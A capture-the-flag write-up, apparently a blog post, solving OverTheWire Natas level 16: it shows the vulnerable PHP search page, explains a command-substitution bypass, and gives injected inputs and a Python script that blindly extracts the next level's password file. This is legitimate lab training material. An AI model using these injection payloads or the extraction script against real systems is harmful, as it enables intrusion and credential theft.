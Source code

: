 ```yaml
---
layout: post
title:  "Natas Level 15 → Level 16"
date:   2021-05-28 11:15:19
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: You can't see what I can see
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas16 site is an updated version of the natas9 site. This time the key is placed in quotes, and with the filters in place, we cannot reuse our solution.

Here's the code for the site:
```php
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>
```

While the filter makes our task more difficult, it does not make it impossible due to one oversight, the command substitution notation **$()** was not included. We can combine this with the way this application behaves to create a binary attack to leak the password. This is similiar to the method used in the previous level, except sqlmap won't be able to help; We'll need to script this.

Note that if we search for something in database, every match comes back. If nothing is found, nothing is returned. We can create a similar attack to last level by finding a word that returns a single result. For this, I will use the word **sonatas**. I happened to find this word looking for natas in the dictionary. Any word will work so long is only one result is returned.

If we use the word sonatas immediately followed by a carefully created command substitution, we can leak the password for the next level.  Enter the following into the form:

```
sonatas$(grep a /etc/natas_webpass/natas17)
```

Notice that we got the word sonatas back.  Now try searching for the following:
```
sonatas$(grep 8 /etc/natas_webpass/natas17)
```

The returned result is blank. This is because the natas17 password contains an "8". The matching line is now appended to the end of the word sonatas.  In other words, if the password was ***789xyz**, our first search was unaffected since there no "a", but in the second search the "8" was matched and sonatas became sonatas789xyz. Since the command substitution takes place, this is the word the application looked for.  Since sonatas789xyz is not in the dictionary, nothing was returned.

With this, we can modify the scripts from the last level for this task. If you haven't read the writeup for the previous level and are not familiar with how the binary attack works, I'd recommend doing so. 

Like the previous level, you'll need to supply the current level password to the script.

Script Performance:
```
Filtering characters completed in 2.24 seconds
Password search completed in 34.62 seconds

Completed in 36.86 seconds
```

Here's the script:
```python
#!/usr/bin/env python
import time
import string
import requests
from requests.auth import HTTPBasicAuth
import concurrent.futures

start_script = time.perf_counter()
all_chars = list(string.ascii_uppercase + string.ascii_lowercase + string.digits)
natas16_password = "W------------------------------h"  # Password for the current level
natas17_password = ""  # Buffer for the next level password
filtered_chars = ""


def get_chars(char):
    req = requests.get('http://natas16.natas.labs.overthewire.org/index.php?needle=sonatas$(grep ' +
                       char + ' /etc/natas_webpass/natas17)', auth=HTTPBasicAuth('natas16', natas16_password))

    if 'sonatas' not in req.text:
        return char
    else:
        return None


start_filter = time.perf_counter()
with concurrent.futures.ThreadPoolExecutor() as executor:
    result = executor.map(get_chars, all_chars)

    for r in result:
        if r is not None:
            print(r, end='', flush=True)
            filtered_chars = filtered_chars + str(r)

end_filter = time.perf_counter()
print(f'\nFiltering characters completed in {round(end_filter - start_filter, 2)} seconds')


def get_password(fc):
    req = requests.get('http://natas16.natas.labs.overthewire.org/index.php?needle=sonatas$(grep ^' + natas17_password +
                       str(fc) + ' /etc/natas_webpass/natas17)', auth=HTTPBasicAuth('natas16', natas16_password))

    if 'sonatas' not in req.text:
        return str(fc)
    else:
        return None


start_password = time.perf_counter()
for _ in range(0, 32):
    with concurrent.futures.ThreadPoolExecutor() as executor:
        result = executor.map(get_password, filtered_chars)

        for r in result:
            if r is not None:
                natas17_password = natas17_password + str(r)
                print(r, end='', flush=True)

end_password = time.perf_counter()
print(f'\nPassword search completed in {round(end_password - start_password, 2)} seconds')

end_script = time.perf_counter()
print(f'\nCompleted in {round(end_script - start_script, 2)} seconds')
```


